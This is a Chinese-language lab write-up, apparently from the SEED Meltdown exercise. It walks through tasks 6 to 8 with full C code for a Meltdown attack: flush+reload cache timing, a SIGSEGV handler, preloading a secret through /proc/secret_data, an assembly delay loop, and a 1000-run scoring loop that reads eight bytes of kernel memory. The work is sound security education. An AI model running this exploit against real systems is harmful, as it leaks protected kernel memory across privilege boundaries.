





# CPU乱序执行攻击

这节归纳为：利用CPU乱序执行特性，在用户空间获取内核空间秘密值

## task6: 用户空间利用CPU乱序执行，找内核空间秘密值的初步代码

```text
1 number = 0;
2 *kernel_address = (char*)0xfb61b000;
3 kernel_data = *kernel_address;
4 number = number + kernel_data;
```
如上代码，执行第三句时，先加载数据，然后检查数据是否有访问权限。如果数据已经在CPU缓存中时，加载就很快，检查比较慢，
为了避免等待，CPU会继续执行第4句，这就是乱序执行，只是结果在检查完成前不会提交  

当发生乱序错误时，系统会消除乱序带来的影响，故没有任何可见的影响。但是忽略了一个地方，就是CPU的缓存

MeltdownExperiment.c如下：
```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}
/*********************** Flush + Reload ************************/

void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
   
  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     
  array[kernel_data * 4096 + DELTA] += 1;          
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv()
{
  siglongjmp(jbuf, 1);
}

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();
    
  if (sigsetjmp(jbuf, 1) == 0) {
     meltdown(0xf9df1000);                
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}

```



## task7: 两种方法提升赢得竞态条件

### 把内核秘密值加到CPU缓存中

乱序后能跑多少代码取决于权限检查的速度，权限检查越慢，乱序后可以跑的代码越多，这是一个竞态条件，这个task就是利用
竞态条件从内核中获取秘密值。

task6的代码执行多次都没能通过reloadSideChannel打印出秘密值，其原因是检查的速度快于数据加载的速度，故我们
改进一下程序，改成数据直接从proc加载，赢得竞态条件

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}
/*********************** Flush + Reload ************************/

void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
   
  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     
  array[kernel_data * 4096 + DELTA] += 1;          
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv()
{
   siglongjmp(jbuf, 1);
}

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
  flushSideChannel();
  
  ret = pread(fd, NULL, 0, 0);
  if (ret < 0) {
    perror("pread");
    return -1;
  }

  if (sigsetjmp(jbuf, 1) == 0) {
     meltdown(0xf9df1000);                
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
```

pread(fd, NULL, 0, 0)这个语句就是把内核秘密值加到CPU缓存  

仍无法成功，需要继续优化

### 汇编代码促使推测执行机制

以上方法仍然可能会无法赢得竞态条件而失败，这里提供一种方法可以进一步提高程序成功概率。
```c
asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
```
.rept 400是循环400次，add $0x141, %%eax把141这个值加到eax寄存器中  
这段代码看起来没什么用，它只是让算法单元感觉到内存正在被访问  

只需把meltdown函数替换成meltdown_asm函数
```c
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
```


加入汇编代码后，攻击有时成功，有时失败

## task8: 使攻击更加可行

即使用了以上优化，攻击也不是每一次都成功，有时攻击还会失败或者拿到了错误的值  
如果跑1000次，找到小于阈值最小的那次，那毫无疑问肯定是从CPU缓存里读的  
另一个字符有256种可能的结果，结合一下这个因素修改代码如下  

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}
/*********************** Flush + Reload ************************/

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv()
{
   siglongjmp(jbuf, 1);
}

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
	  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
	ret = pread(fd, NULL, 0, 0);
	if (ret < 0) {
	  perror("pread");
	  break;
	}
	
	// Flush the probing array
	for (j = 0; j < 256; j++) 
		_mm_clflush(&array[j * 4096 + DELTA]);

	if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xf9df1000); }

	reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
	if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
```



## 找出所有字符

以上程序找到第一个字符，适当修改可打印所有秘密字符  

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}
/*********************** Flush + Reload ************************/

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv()
{
   siglongjmp(jbuf, 1);
}

int get_secret_value(int fd, unsigned long kernel_data_addr)
{
  memset(scores, 0, sizeof(scores));
  
  
    // Retry 1000 times on the same address.
  for (int i = 0; i < 1000; i++) {
	int ret = pread(fd, NULL, 0, 0);
	if (ret < 0) {
	  perror("pread");
	  break;
	}
	
	// Flush the probing array
	for (int j = 0; j < 256; j++) 
		_mm_clflush(&array[j * 4096 + DELTA]);

	if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(kernel_data_addr); }

	reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (int i = 0; i < 256; i++) {
	if (scores[max] < scores[i]) max = i;
  }

  return max;
}

int main()
{  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
  flushSideChannel();
  printf("The secret value is: ");
  
  for (int i=0; i<8; i++)
  {
    printf("%c", get_secret_value(fd, 0xf9df1000 + i));
  }
  printf("\n");

  return 0;
}
```


可以看到也不是百分之百成功，但成功概率还是挺大的